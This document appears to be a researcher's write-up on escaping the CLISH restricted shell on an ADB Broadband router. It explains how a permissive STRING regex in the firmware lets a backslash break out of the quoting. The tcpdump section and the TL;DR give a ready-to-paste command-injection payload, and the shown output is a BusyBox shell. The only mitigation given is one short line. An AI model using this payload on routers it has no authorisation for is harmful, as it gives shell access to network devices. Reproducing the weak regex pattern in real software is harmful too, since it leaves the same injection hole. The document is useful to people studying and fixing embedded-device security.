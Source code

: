 # Escaping from CLISH

For impatient readers: There is a TL;DR at the end.

## Short intro in CLISH

```
********************************************
*            ADB BROADBAND                 *
*                                          *
*      WARNING: Authorised Access Only     *
********************************************

Welcome  
ADB#
```

[CLISH][1] is a restricted shell which supports only a set of predefined
commands. Is seems to be developed by a single person, Graeme McKerrell,
 and was last updated 2013-04-26.

### Views
These are used to  define "views" which contain a set of commands. If you type
in `config terminal` for example the shell can open another view with
configuration command and with `exit` you can go back to the view.

### Commands
A command has basically a name, zero or more parameter and an action.
The name is constant and there is no such thing like subcommands. So it's very
simple and a name may be for example `ping` or `config terminal`.
The interesting parts are the parameters and the action. The action are
some shell commands(!) in which the parameters can be used as environment
variables. To disallow [command injection][2] you can restrict the parameter
by using a type.

### Types
A type can be defined with a *regex*,  as *selection* of values or as a
*integer*. By executing a command and while typing each parameter is matched
against its type.

As an additional countermeasure against code injection the characters
\`|$<>&()# are escaped by *adding a backslash in front* of them.

## Problem

So what exactly is the problem? Everything seems fine?
All parameter defined with types using integers and selections seem perfectly
fine if you don't screw up completely.

But what about regular expressions? In the official documentation
"as a reference" there is this type definition:

```xml
<PTYPE name="STRING"
    pattern="[^\-]+"
      help="String"/>
```

This looks pretty OK. We can't use backslashes or use the parameter
as a flag argument because "-" is forbidden. Lets look at the firmware.
Did they implement STRING is differently? YES:

```xml
<PTYPE name="STRING"  
    pattern="[^`]*"
        help="String"/>
```
So.. uhm.. They don't want the backquote (\`) in the string. This
is fine but what about the backslash and minus? Lets try it. Used here
with ping. Other implementations may have ping restricted to
IP-addresses. The ping definition looks something like this:  

### Screwing with Ping

```xml
<COMMAND name="ping"  
         help="send ICMP ECHO_REQUEST to network hosts">

  <PARAM name="destination"
     help="Destination host or IP address"
     ptype="STRING"/>

  <ACTION>exec ping "${destination}"</ACTION>
</COMMAND>
```

```sh
ADB# ping `/bin/sh`  
          ^
destination  String
```

Yes thats what probably what they expected.

```sh
ADB# ping \  
sh: syntax error: unterminated quoted string  
```

Uh oh.. This was translated to `ping "\"`.

```sh
ADB# ping \$SHELL  
ping: bad address '\/bin/clish'
```

The "$" was escaped but an additional backslash escaped the backslash: ```ping "\\$USER"```
While this is funny we can't actually execute something with it. So we have to dig a bit deeper and I found this command:

### Accessing the Shell

```xml
<COMMAND name="tcpdump enable file filter" help="tcpdump enable output file filter">  
    <PARAM name="ifname" help="interface name" ptype="IFNAMES"/>
    <PARAM name="filename" help="log file name" ptype="STRING"/>
    <PARAM name="filter" help="pcap filter" ptype="PCAPFILTER"/>
        <ACTION>
            . /etc/clish/tcpdump.sh "file" "filter" "${ifname}" "${filename}" "${filter}"
        </ACTION>
</COMMAND>  
```

```
ADB# tcpdump enable file filter br0 \ "; sh -c sh \"

ERROR:   Output File has to be stored in a connected mounted USB memory device (ex. /mnt/sda1/ )

HELP:    ...


BusyBox v1.17.3 (2015-09-23 17:35:23 CEST) built-in shell (ash)  
Enter 'help' for a list of built-in commands.

/root $ echo $USER
admin
```

**Hello shell!**

### Some extra candy

While writing this post if took a second look into the type definitions. There was a very interesting one.

```xml
<PTYPE name="WIFI_PASSPHRASE"
       pattern=".........*"
       help="More than 8 char string"/>
```
If you try to write code injection with this one make sure your code has at least 8 characters! ;)

## Mitigation

**RTFM!**
Sanitizing insecure strings by using the type definition from the reference should be enough.

## TL;DR
Paste the following code:
`tcpdump enable file filter br0 \ "; /bin/sh -c /bin/sh \"`

[1][http://clish.sourceforge.net/]
[2][https://www.owasp.org/index.php/Command_Injection]
